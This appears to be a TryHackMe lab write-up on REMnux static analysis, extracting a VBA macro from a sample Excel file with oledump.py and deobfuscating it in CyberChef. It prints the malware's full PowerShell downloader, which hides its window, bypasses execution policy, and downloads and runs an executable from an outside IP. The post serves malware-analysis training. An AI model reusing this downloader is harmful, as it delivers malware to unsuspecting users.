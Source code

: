 ```yaml
---
title: "TryHackMe: REMnux Getting Started - Task 3 File Analysis"
author: Dustin Merritt
categories: [TryHackMe]
tags: [remnux, oledump, malware, vba, static analysis, cyberchef]
render_with_liquid: false
media_subpath: /images/tryhackme_remuxgettingstarted/
image:
  path: room_image.webp
---
```


In this TryHackMe room, we used **REMnux** to analyze a suspicious Excel document named `agenttesla.xlsm`. We leveraged the `oledump.py` tool to extract and examine embedded macros, then used **CyberChef** to clean and interpret an obfuscated PowerShell payload. This exercise demonstrated a realistic scenario where VBA macros are used to drop malware onto a target system.

[![TryHackMe Room Link](room_image.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/remnuxgettingstarted){: .center }

## Initial Setup

We started by opening the **REMnux VM** and navigating to the provided file path:

```bash
cd /home/ubuntu/Desktop/tasks/agenttesla/
```

Running `oledump.py` on `agenttesla.xlsm` revealed several streams, notably:

```bash
oledump.py agenttesla.xlsm
```

Output:
```
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```

The stream labeled `A4` contains a **macro** (`M` flag), suggesting potential malicious behavior.

## Macro Extraction

We extracted the contents of the macro using:

```bash
oledump.py agenttesla.xlsm -s 4
```

This provided raw hex output, but it was difficult to interpret. To decode the VBA macro, we added the `--vbadecompress` flag:

```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

The output revealed a familiar PowerShell obfuscation pattern using `*` and `^` as noise characters:

```vb
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* ... -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" ..."
```

## PowerShell Deobfuscation with CyberChef

To make the PowerShell command human-readable, we used **CyberChef**:

- Apply two **Find/Replace** operations:
  - Replace `*` with an empty string
  - Replace `^` with an empty string

> 🔽 **Insert screenshot of CyberChef here showing the Find/Replace steps and the cleaned PowerShell script**

Once cleaned, the PowerShell command was clearly a downloader:

```powershell
powershell -WindowStyle hidden -executionpolicy bypass;
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru;
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile;
Start-Process $TempFile;
```

## What Does This Do?

- **Hidden Window**: Avoid user suspicion
- **Bypass Execution Policy**: Allow running potentially blocked scripts
- **Download EXE**: Grab `Doc-3737122pdf.exe` from a suspicious IP
- **Execute**: Run the file on the target machine

This macro behavior is a classic example of **initial access malware delivery**, likely a variant of **AgentTesla**, a popular information stealer.

## Bonus: Analyzing `possible_malicious.docx`

We applied the same technique to `possible_malicious.docx`:

```bash
oledump.py possible_malicious.docx
```

Output:
```
... 16 data streams ...
... macro present at stream 8 ...
```

Another suspicious macro! These steps could easily be repeated to investigate further.

## Wrap-Up

This TryHackMe challenge was a practical introduction to static malware analysis using REMnux. Tools like `oledump.py` and CyberChef make reverse-engineering obfuscated macros more accessible. Remember, even Excel files can be trojan horses — always analyze before opening!

## Key Takeaways

- **Tool used**: `oledump.py`
- **Macro identified in stream**: `A4`
- **PowerShell function for downloading files**: `Invoke-WebRequest`
- **Downloaded file name**: `Doc-3737122pdf.exe`
- **Downloaded location**: `$TempFile`

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>